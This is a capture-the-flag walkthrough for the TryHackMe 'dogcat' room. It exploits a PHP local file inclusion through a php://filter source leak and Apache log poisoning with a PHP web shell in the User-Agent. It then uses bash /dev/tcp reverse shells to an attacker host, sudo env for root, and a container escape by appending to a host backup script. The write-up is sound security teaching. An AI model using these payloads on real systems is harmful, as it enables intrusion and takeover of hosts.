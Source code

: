 # dogcat
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!\
This machine may take a few minutes to fully start up.

[Link](https://tryhackme.com/room/dogcat) to the room

---

Let's start with a version and script scan against the target machine
```
$ sudo nmap -sV -sC <machine_ip> -Pn -n --disable-arp-ping

<...snip...>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/009bc8a6-b486-4d12-9bd3-484bdc1a8172)

The web app is about images of cats and dogs, no surprise. Let's fuzz for hidden content.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/FUZZ"

<...snip...>
cats                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
dogs                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
```

We assume that these folders contain the content of the web app (images of cats and dogs).
But we don't have permissions to access them.

Let's try making use of the first flag's hint: *There's more to *view* than just cats and dogs...*.\
Notice that view is the name of the query argument when calling the api for a random cat/dog image.
We can try and fuzz to discover more values that are accepted by that argument:
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/?view=FUZZ" -fs 455

<...snip...>
category                [Status: 200, Size: 759, Words: 106, Lines: 24, Duration: 39ms]
<...snip...>
```

The command returns many entries. Note that `-fs 455` is used to exclude entries that return the standard response of "Sorry, only dogs or cats are allowed".

Navigating to `http://<machine_ip>/?view=catalog`, we get the following:
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/70e44b57-bf4b-45cd-a15e-889d8d9d2e49)

Allright, now we know that the value of `view` is attached to ".php" extension and then passed to the `include` function.\
Since this is the case, we can use a php filter to disclose the source code of php files in the server. But first, lets see what php files do we have there:
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt:FUZZ -u "http://<machine_ip>/FUZZ" -e .php

<...snip...>
flag.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
<...snip...>
```

Interestingly, we found a flag file. Now we can use the read filter to get its content encoded in base64.\
When testing the payload, I was getting the "Sorry, only dogs or cats are allowed" error, so I tried many assumptions on how the app is verifying this conditions.
One of them, which later succeeded, is that the app checks if the value of the path contains "cat" or "dog".\
Hence, to get the flag, we pass the value `http://<machine_ip>/?view=php://filter/read=convert.base64-encode/resource=cats/../flag`. We used "cats" because this is an existing folder on the server, and from which we know the relative location of "flag.php".

We decode the base64 string and get our first flag.

Having access to php files on the server, we need to figure out how to get more access.\
Let's get the index file (same directory as flag.php) and see how the app actually works.
```PHP
<...snip...>
        <?php
            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
            $ext = isset($_GET["ext"]) ? $_GET["ext"] : '.php';
            if(isset($_GET['view'])) {
                if(containsStr($_GET['view'], 'dog') || containsStr($_GET['view'], 'cat')) {
                    echo 'Here you go!';
                    include $_GET['view'] . $ext;
                } else {
                    echo 'Sorry, only dogs or cats are allowed.';
                }
            }
        ?>
<...snip...>
```
First, we now validate how the app decides when a value of *view* is valid. And second, the url argument *ext* is used to specify the extension of the file to include and thus, we can now include whatever file (according to permissions) on the server.

One common method to exploit LFI vulnerabilities is log poisonning. For this, we poison our user-agent to acheive RCE when we include the log file.\

- Log file location : `/var/log/apache2/access.log`
- User Agent : `<h1><?php system($_GET['cmd']); ?></h1>`
- Result when visiting `http://<machine_ip>/?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=id`
![Screenshot_2023-12-08_20_29_42](https://github.com/elomarii/CTF_4_DAY/assets/106914699/62233aba-1ee3-4977-9435-09672e19054a)


Now that we can execute commands on the target machine, let's first get a reverse shell.\
We can use Burpsuite to manipulate the http request, the crafted request I used is the following, where the bash command used is `bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'`. Don't forget to started a listener on your machine before sending the request.
```http
GET /?view=cats/../../../../var/log/apache2/access.log&ext=&cmd=bash+-c+'exec+bash+-i+%26>/dev/tcp/<rhost>/<rport>+<%261' HTTP/1.1
Host: <machine_ip>
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: nothing
Connection: close
Cache-Control: max-age=0
```

We find the second flag on the parent folder of where the app lives (execute command `ls ..`).

For our next flag, we can try and see if `www-data` (our user) can execute any commands as root with no password. And bang, yes we can:
```
www-data@e43f08c3313d:/var/www/html$ sudo -l

Matching Defaults entries for www-data on e43f08c3313d:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on e43f08c3313d:
    (root) NOPASSWD: /usr/bin/env
```

We can use `env` to execute commands as root. As a consequence, we enumerate the content of `/root` and find the third flag.
```
www-data@e43f08c3313d:/var/www/html$ sudo env cat /root/flag3.txt
```

As for the last flag, and with respect to the room description, we need to beak out of the docker container running the web app.\
To continue working as root we execute the following command
```
www-data@e43f08c3313d:/var/www/html$ sudo env bash -i
```

One of the ways to break out from the container is to inspect drives owned by the user (the one who run the container) on the host system.
```
root@e43f08c3313d:/var/www/html# df -h

Filesystem      Size  Used Avail Use% Mounted on
overlay         9.8G  5.3G  4.0G  57% /
tmpfs            64M     0   64M   0% /dev
tmpfs           240M     0  240M   0% /sys/fs/cgroup
shm              64M     0   64M   0% /dev/shm
/dev/xvda2      9.8G  5.3G  4.0G  57% /opt/backups
tmpfs           240M     0  240M   0% /proc/acpi
tmpfs           240M     0  240M   0% /proc/scsi
tmpfs           240M     0  240M   0% /sys/firmware
```

`/opt/backup` is mounted on `/dev/xvda2` in the host filesystem and occupies most of the space of the container. Checking its content, we find a script that is run regularly by root on the host machine to backup the container. Because we have permissions to write to that file, we can send a reverse shell back to our machine:

```
root@e43f08c3313d:/var/www/html# ls -l /opt/backups
ls -l /opt/backups
total 2884
-rwxr--r-- 1 root root     123 Mar  1 16:33 backup.sh
-rw-r--r-- 1 root root 2949120 Mar  1 16:40 backup.tar

root@e43f08c3313d:/var/www/html# echo "bash -c 'exec bash -i &>/dev/tcp/<rhost>/<rport> <&1'" >> /opt/backups/backup.sh
```
```
kali@kali$ nc -lvnp <rport>

listening on [any] <rport> ...
connect to <rhost> from (UNKNOWN) <machine_ip> 57198
bash: cannot set terminal process group (3365): Inappropriate ioctl for device
bash: no job control in this shell
root@dogcat:~# ls
ls
container
flag4.txt
root@dogcat:~# cat flag4.txt
```


